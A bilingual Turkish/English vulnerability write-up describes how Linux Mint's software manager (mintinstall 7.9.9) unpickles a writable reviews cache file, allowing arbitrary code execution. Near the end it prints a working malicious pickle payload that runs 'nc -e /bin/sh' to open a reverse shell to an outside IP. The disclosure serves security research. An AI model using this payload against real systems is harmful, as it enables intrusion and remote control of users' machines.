 [TR] Linux mint yazılım yöneticisi (v 7.9.9) yanlış yapılandırmadan dolayı obje enjeksiyonu ve keyfi kod çalıştırmamıza neden olmaktadır.

[EN] Linux mint software manager (v 7.9.9) causes us to execute object injection and arbitrary code due to incorrect configuration


	mintinsall

[TR] Mint yazılım yöneticisini çalıştırdıgımız da yeni yorum olup olmadıgını kontrol ediyor eger yeni yorum varsa  [new-reviews.list](https://community.linuxmint.com/data/) adresinden indirip dosyaya yazıyor.

[EN] If there is a new comment [new-reviews.list](https://community.linuxmint.com/data/) download from and write to file.

![](imgs/20190926-164424.png)

	code mintinstall.py
	
[TR] Yazılım yöneticisini ilk başladıgında , reviews modülünden ReviewCache() sınıfını çağırıyor.

[EN] When the software manager first starts, it calls the ReviewCache() class from the reviews module.
 
 ![](imgs/20190926-170607.png)
 
# Verileri Nasıl İşliyor?
# How Does It Process Data?

	code reviews.py
	
[TR] ReviewCache sınıfı başladıgında(__init__)  _load_cache() fonksiyonunu çagırıyor.

[EN] When the ReviewCache class starts (__init__) it calls _load_cache()

![](imgs/20190926-171334.png)

[TR] Load cache fonksiyonu REVIEWS_CACHE degişkeninde olan dosyayı okuyup pickle modülü yardımıyla dosyanın içinde ki datayı unserialize ediyor ve bazı değerleri hafıza da tutuyor.

[EN] The Load cache function reads the file in the REVIEWS_CACHE variable and unserializes the data in the file with the help of the pickle module and holds some values in memory.


![](imgs/20190926-171938.png)
![](imgs/20190926-165833.png)
![](imgs/20190926-165855.png)

[TR] Dosyayı kontrol ettigimde yazma iznim oldugu görünüyor.

[EN] When I check the file, it looks like I'm allowed to write.

 ![](imgs/20190926-170651.png)

[TR] [Pickle](https://docs.python.org/3.6/library/pickle.html) modülü yardımıyla serialize/unserialize işlemleri gerçekleştirebildigimizden, reduce metodu kullanarak modül dahil edip keyfi kod yürütebiliriz.

[EN] [Pickle](https://docs.python.org/3.6/library/pickle.html) since we can perform serialize/unserialize operations with the module, we can include the module and execute arbitrary code using the reduce method.

![](imgs/20190927-113447.png)

[TR] Bu durumda eğer dosya unserialize edilmeye çalışılırsa zararlı kodumuz çalışacaktır.
[EN] If you attempt to unserialize the file, our malicious code will work.

	cos 
	system 
	(S'nc -e /bin/sh 192.168.2.138 4545' 
	tR.
	>>modül adı c{os}
	>> fonksiyon
	( >> işaretleyici nesnesi 
	S >> tırnak sonuna kadar okuyup stack'e at
	tR. >> stackte olanları çagır ve sonucu stacke yerleştir.
	
![](imgs/20190927-131940.png)



![alt-text](imgs/exploit.gif)
